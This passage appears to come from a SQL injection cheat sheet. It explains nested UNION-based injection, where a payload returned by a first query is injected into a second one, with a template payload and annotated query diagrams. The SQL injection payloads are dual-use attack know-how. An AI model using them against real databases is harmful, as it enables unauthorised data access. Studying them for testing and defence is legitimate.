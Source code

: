 - _Problem:_ You can add a `UNION` payload to the first query but it won't affect the returned data.  
- _solution:_ You need to inject in the second query. So the input to the second query should not get sanitized. Then, you need to make the first query return no data. Now append a `UNION` query that returns the payload you want to inject in the _second query_.
  
  **Example:**  
  The base of the payload (what you inject in the first query):

  ```text
  ' AND 1 = 2 UNION SELECT "PAYLOAD" -- -
  ```

  The `PAYLOAD` is what you want to inject in the _second query_:
  
  ```text
  ' AND 1=2 UNION SELECT ...
  ```

  The final payload (after replacing the `PAYLOAD`):

  ```text
  ' AND 1 = 2 UNION SELECT "' AND 1=2 UNION SELECT ..." -- -
                            \________________________/
                                        ||
                                        \/
                                 the payload that
                                  get's injected
                               into the second query
  \________________________________________________________/
                              ||
                              \/
   the actual query we inject into the vulnerable parameter
  ```

  The first query after injection:

  ```text
  SELECT               --\
    id                    |
  FROM                    |----> first query
    products              |
  WHERE                   |
    name = 'abcd'      --/
    AND 1 = 2                                 --\
  UNION                                          |----> injected payload (what gets injected into the second payload)
  SELECT                                         |
    "' AND 1=2 UNION SELECT ... -- -" -- -'   --/
  ```

  The second query after injection:

  ```text
  SELECT            --\
    comments           |
  FROM                 |----> second query
    products           |
  WHERE                |
    id = ''         --/
    AND 1 = 2         --\ 
  UNION                  |----> injected payload (the final UNION query that controls the returned data)
  SELECT ... -- -'    --/
  ```
